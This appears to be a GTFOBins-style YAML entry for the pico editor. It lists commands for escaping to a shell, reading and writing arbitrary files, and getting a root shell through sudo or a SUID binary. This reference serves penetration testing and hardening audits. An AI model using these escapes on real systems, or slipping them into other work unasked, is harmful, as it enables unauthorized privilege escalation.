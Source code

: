 ```yaml
---
functions:
  shell:
    - code: |
        pico
        ^R^X
        reset; sh 1>&0 2>&0
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        pico -s /bin/sh
        /bin/sh
        ^T
  file-write:
    - code: |
        pico file_to_write
        DATA
        ^O
  file-read:
    - code: pico file_to_read
  limited-suid:
    - description: The `SPELL` environment variable can be used in place of the `-s` option if the command line cannot be changed.
      code: |
        ./pico -s /bin/sh
        /bin/sh
        ^T
  sudo:
    - code: |
        sudo pico
        ^R^X
        reset; sh 1>&0 2>&0
---
```

